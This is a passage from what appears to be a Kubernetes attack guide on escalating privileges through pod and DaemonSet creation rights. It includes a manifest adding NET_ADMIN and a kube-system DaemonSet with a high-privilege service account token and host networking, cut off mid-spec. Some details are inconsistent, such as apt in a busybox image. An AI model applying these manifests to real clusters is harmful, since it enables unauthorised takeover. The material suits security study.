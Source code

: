 ```yaml
#apiVersion: v1
#kind: Pod
#metadata:
#  name: security-context-demo
#spec:
#  securityContext:
#    runAsUser: 1000
#    runAsGroup: 3000
#    fsGroup: 2000
#  volumes:
#  - name: sec-ctx-vol
#    emptyDir: {}
#  containers:
#  - name: sec-ctx-demo
#    image: busybox
    command: [ "sh", "-c", "apt update && apt install iptables -y && iptables -L && sleep 1h" ]
    securityContext:
      capabilities:
        add: ["NET_ADMIN"]
 #   volumeMounts:
 #   - name: sec-ctx-vol
 #     mountPath: /data/demo
 #   securityContext:
 #     allowPrivilegeEscalation: true
```

See the logs of the proxy:

```bash
kubectl logs app -C proxy
```

More info at: [https://kubernetes.io/docs/tasks/configure-pod-container/security-context/](https://kubernetes.io/docs/tasks/configure-pod-container/security-context/)

### **Create/Update Deployment, Daemonsets, Statefulsets, Replicationcontrollers, Replicasets, Jobs and Cronjobs**

Deployment, Daemonsets, Statefulsets, Replicationcontrollers, Replicasets, Jobs and Cronjobs are all privileges that allow the creation of different tasks in the cluster. Moreover, it's possible can use all of them to **develop pods and even create pods**. So it's possible to a**buse them to escalate privileges just like in the previous example.**

Suppose we have the **permission to create a Daemonset** and we create the following YAML file. This YAML file is configured to do the same steps we mentioned in the “create pods” section.

```yaml
apiVersion: apps/v1
kind: DaemonSet
metadata:
  name: alpine
  namespace: kube-system
spec:
  selector:
    matchLabels:
      name: alpine
  template:
    metadata:
      labels:
        name: alpine
    spec:
      serviceAccountName: bootstrap-signer
      automountServiceAccountToken: true
      hostNetwork: true
      containers:
      - name: alpine
```